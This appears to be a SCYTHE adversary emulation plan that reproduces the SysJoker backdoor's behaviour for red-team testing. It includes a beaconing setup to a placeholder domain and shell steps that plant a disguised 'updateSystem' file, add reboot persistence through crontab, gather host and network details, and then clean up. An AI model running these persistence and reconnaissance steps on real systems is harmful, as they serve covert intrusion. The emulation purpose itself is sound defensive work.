 # SysJoker - Adversary Emulation Plan

This threat is based on several different threat reports:
- For macOS the [ObjectiveSee](https://www.objective-see.com/blog/blog_0x6C.html) threat report released on January 11,2022. 
- For Linux the [Intezer](https://www.intezer.com/blog/malware-analysis/new-backdoor-sysjoker/) threat report released January 11, 2022. 

## Automated Adversary Emulation with SCYTHE
### Lin
1. Download and import the threats in JSON format to your SCYTHE instace
2. Create a new campaign 'SysJoker' with HTTPS and the communication options. You can import the config.json or manually add `--cp yourdomain.com:443 --secure true --multipart 10240 --heartbeat 10 --jitter 16`
3. Import Existing Threat: 'SysJoker'
4. Start Campaign
5. Download Campaign Client
6. In ~/Downloads run chmod +x *.out 
7. ./*.out

## Manual Adversary Emulation
From a SCYTHE shell:
```
loader --load run
run mkdir -p ~/.Library/SystemServices
loader --load downloader
downloader --src '#!/bin/bash\n echo "SysJoker Beacon Malware would have run here" > ~/.Library/log.txt; ' --dest /tmp/scythe-sysjoker
loader --unload downloader
run cp -rf /tmp/scythe-sysjoker ~/.Library/SystemServices/updateSystem
run chmod +x ~/.Library/SystemServices/updateSystem
# add persistence
run crontab -l 2>/dev/null; echo "@reboot ~/.Library/SystemServices/updateSystem" | crontab -
run nohup ~/.Library/SystemServices/updateSystem >/dev/null 2>&1 &
run ifconfig | grep -v 127.0.0.1 | grep -E "inet ([0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3})" | awk '{print $2}'
run ip address | awk '/ether/{print $2}'
run id -u
run uname -mrs
# Cleanup
run rm -rf ~/.Library/SystemServices/updateSystem
run rm -rf ~/.Library/log.txt
run rmdir ~/.Library/SystemServices
run rmdir ~/.Library/
run crontab -l 2>/dev/null | grep -v "@reboot ~/.Library/SystemServices/updateSystem" | crontab -
loader --unload run
controller --shutdown
```